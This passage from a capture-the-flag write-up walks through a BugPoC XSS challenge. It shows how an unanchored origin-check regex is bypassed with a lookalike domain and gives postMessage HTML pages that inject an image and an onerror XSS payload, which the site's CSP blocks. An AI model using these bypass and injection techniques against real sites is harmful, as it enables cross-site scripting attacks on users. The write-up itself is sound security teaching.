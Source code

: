 And nothing happens...

![We should be seeing “HI”…](/bugpoc-xss-challenge-2/step1-first-attempt.png)

# Step 2: Bypassing the Origin Check

If we have a closer look at the recieveMessage function, we can see what the issue is:

```js
// verify sender is trusted
if (!/^http:\/\/calc.buggywebsite.com/.test(event.origin)) {
    return
}
```

So we need to be able to bypass this check. We can use RegExr to try and find some possible weaknesses in the regex:

![We have some bypasses!](/bugpoc-xss-challenge-2/step2-checking-for-origin-bypass.png)

Since the regex is missing the $ at the end, we can use our own domain and create a subdomain that matches calc.buggywebsite.com to pass the check. Let’s edit /etc/hosts.

![Pointing calc.buggywebsite.com.au to our local server.](/bugpoc-xss-challenge-2/step2-etc-hosts.png)

Now, we see the message appear!

![Making progress.](/bugpoc-xss-challenge-2/step2-attempt2.png)

Now the challenge becomes choosing the correct XSS payload. We can insert things like images:

```html
<!DOCTYPE HTML>

<html>
    <body>
        <iframe name="mriframe" src="http://calc.buggywebsite.com/frame.html" onload="run()" width="500px" height="700px"></iframe>

        <script>
            function run() {
                mriframe.postMessage("<img src=\"https://pbs.twimg.com/profile_images/1209709211195588609/2VZwKoQq_400x400.jpg\">", "*");
            }
        </script>
    </body>
</html>
```

![Images load](/bugpoc-xss-challenge-2/step2-bad5ect0r.png)

But inserting basic XSS payloads won’t work due to the CSP we talked about earlier:

```html
<!DOCTYPE HTML>

<html>
    <body>
        <iframe name="mriframe" src="http://calc.buggywebsite.com/frame.html" onload="run()" width="500px" height="700px"></iframe>

        <script>
            function run() {
                mriframe.postMessage("<img src=x onerror=alert(1)>", "*");
            }
        </script>
    </body>
```
